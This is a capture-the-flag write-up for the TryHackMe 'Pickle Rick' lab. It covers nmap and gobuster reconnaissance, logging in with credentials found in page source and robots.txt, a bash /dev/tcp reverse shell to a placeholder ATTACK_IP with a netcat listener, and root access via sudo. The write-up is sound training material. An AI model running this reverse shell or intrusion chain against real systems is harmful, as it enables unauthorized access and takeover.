Write-up for TryHackMe CTF Pickle Rick

# Recon
The first step I scanned ports with nmap. As a result, two open ports were found.
```
nmap -sS -sV 10.114.186.45
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-10-19 15:01 UTC
Nmap scan report for ip-10-114-186-45.eu-central-1.compute.internal (10.114.186.45)
Host is up (0.00037s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.37 seconds
```

Then I navigate to the target machine's IP address in a browser and I got to the main page:

Okay, here I saw a little hint. I'll probably have to use a reverse shell.

Let's explore the page's source code.


I found username here! Well, that means there must be a login page somewhere and I need to find it. And the password, ofc.

I used Gobuster to search for interesting directories.
```
gobuster dir -u http://10.114.186.45 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.114.186.45
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1062]
/.html                (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 315] [--> http://10.114.186.45/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```
# Exploitation
I checked the `login.php` page. 



And yes, it's a login page! Good, but I still need the password.

Then I checked `portal.php`. Oh, it redirects to `login.php`. 
Ok, next one was `robots.txt`. Here i found something interesting. It seems this is the required password. 



With this credentials, I successfully logged in to the login page. The Command Panel page popped up on my screen.


I tried entering some commands and received information that my workind directory was `/var/www/html` and my username was `www-data`. But the output of the `ls -al` is more interesting:


The `cat` command didn't work. So i remebered the tip from the very beginning: need to use a reverse shell.
# Reverse Shell & Read the Flags
At first, I wanted to use Metasploit, but later realized it wasn't necessary. So I used Netcat (`nc -lvnp 4444`) on the attack machine and bash in the Command Panel (`bash -c 'exec bash -i &>/dev/tcp/ATTACK_IP/4444 <&1`). After establishing a connection, I was able to read the file and find the first ingredient.



Afterwards I read the second found file and got hint.



Well, I continued to look around the file system.
I looked in the `/home/rick` and found the second ingredient there.
 

While searching, I discovered i didn't have sufficient rights to access the `root` folder. But this wasn't a big problem, and I was able to easily find the third ingredient there with `sudo su` command.
 

And with that, the 20-minute adventure is over.
